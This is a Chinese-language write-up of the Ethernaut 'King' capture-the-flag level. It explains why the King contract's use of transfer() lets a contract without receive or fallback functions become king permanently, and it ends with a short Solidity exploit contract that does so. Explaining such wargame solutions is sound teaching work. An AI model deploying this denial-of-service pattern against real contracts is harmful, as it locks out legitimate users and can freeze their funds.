

## Level_9.King

要求：

> 成为king，且在提交题目时，owner会再次尝试成为king，避免owner成功；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    // 收款时使用
    receive() external payable {
        // 需要携带的金额大于等于现有出价
        // 或者发送者是owner
        require(msg.value >= prize || msg.sender == owner);
        // 给之前的king转账
        payable(king).transfer(msg.value);
        // 更新king和最高出价
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

### 分析

合约类似一个拍卖系统，最高价者是这个合约的king，并且之前的king能获得新king的出价报酬；

首先就是想看看能不能获得` owner `，发现合约中并没有能够修改` owner `的地方；

这边也没什么可以溢出的地方；且提交题目时，` owner `会利用` msg.sender == owner `来重新成为` king `；

所以发送的金额再高也没啥用，` msg.value `、` owner `都失效了，看看` msg.sender `；

要是` king `是一个合约地址，且它没有` receive() `和` fallback() `，那调用` transfer() `不就会失败？这样` king `永远不会被修改了；

> 之前的笔记：
>
> 用法：`接收方地址.transfer(发送的ETH数额)`；
>
> - `transfer`的gas限制是2300，足够用于转账，前提是接收方的`fallback`和`receive`不能太复杂；
> - `transfer`如果转账失败，会自动`revert`交易（回滚交易）；

所以，我们只需部署一个无接受转账函数的合约，利用它往该合约转账相应金额成为` king `即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function getKing(address payable addr) public payable {
        // 使用call，以防对面的接收函数实现了复杂逻辑
        (bool success, )= addr.call{value:msg.value}("");
        require(success, "Fail");
    }
}
```



